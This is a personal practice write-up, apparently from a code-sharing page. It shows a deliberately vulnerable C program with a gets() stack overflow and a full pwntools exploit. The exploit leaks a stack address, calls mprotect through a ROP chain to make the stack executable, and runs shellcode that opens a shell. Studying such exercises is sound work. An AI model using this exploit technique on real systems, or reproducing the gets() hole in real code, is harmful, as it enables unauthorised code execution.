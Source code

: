 <h1> &Learning </h1>

I made this C file inorder to practice ROP by calling `mprotect()` thereby making the stack executable and popping shell 🐚

Source:

```c
#include <stdio.h>

void greet_me(){
    char name[0x64];
    
    puts("Prove your worth hackerman!");
    gets(name);

}

int main(int argc, char *argv[]){
    greet_me();

    return 0;
}
```

Compiled using:
- gcc rop.c -no-pie -static

Download link: [link](https://cdn.discordapp.com/attachments/1176106609861201921/1198812318214148176/a.out?ex=65c043f9&is=65adcef9&hm=0ccc67d2a307bc3c388e4a4366fbaa8039260cc3b40101551c245e1a87da9c93&)

Here's the final exploit script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from warnings import filterwarnings

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'a.out')
elf = exe
filterwarnings("ignore")
context.log_level = 'debug'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *greet_me+42
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global io
    global elf

    io = start()

def rop():
    offset = 120
    pop_rdi = 0x0000000000402020 # pop rdi; ret; 
    pop_rsi = 0x000000000040a6bd # pop rsi; ret; 
    pop_rdx_pop_rbx = 0x000000000045ec57 # pop rdx; pop rbx; ret; 
    call_rsp = 0x0000000000426c6a # call rsp; 


    """
    Stage One: Leak __libc_stack_end because it would hold the value of the end of the stack.
    Then allign it with page boundary 0x1000: https://man7.org/linux/man-pages/man2/mprotect.2.html
    Cause my end goal is to call mprotect() to make the stack executable
    """

    payload = flat({
        offset: [
            pop_rdi,
            elf.sym['__libc_stack_end'],
            elf.sym['_IO_puts'],
            elf.sym['main']
        ]
    })

    io.sendline(payload)
    io.recvuntil("hackerman!")
    addr = unpack(io.recv()[1:7].ljust(8, b"\x00"))
    info("__libc_stack_end: %#x", addr)

    _addr = addr &~ 0xfff # Bitwise AND operation with negation of 0x1000-1
    _len = 0x1000
    _prot = 0x7

    sc = asm(shellcraft.sh())

    info("Alligned stack address: %#x", _addr)

    payload = flat({
        offset: [
            pop_rdi,
            _addr, # page boundry alligned address
            pop_rsi,
            _len, # page size
            pop_rdx_pop_rbx,
            _prot, # protection
            0x0,
            elf.sym['mprotect'],
            call_rsp,
            sc
        ]
    })
    
    io.sendline(payload)

def main():
    
    init()
    rop()
    

if __name__ == '__main__':
    main()

    io.interactive()
```

Resource: [RaziOverFlow](https://www.youtube.com/watch?v=r_tysAKIELs&t=1030s)
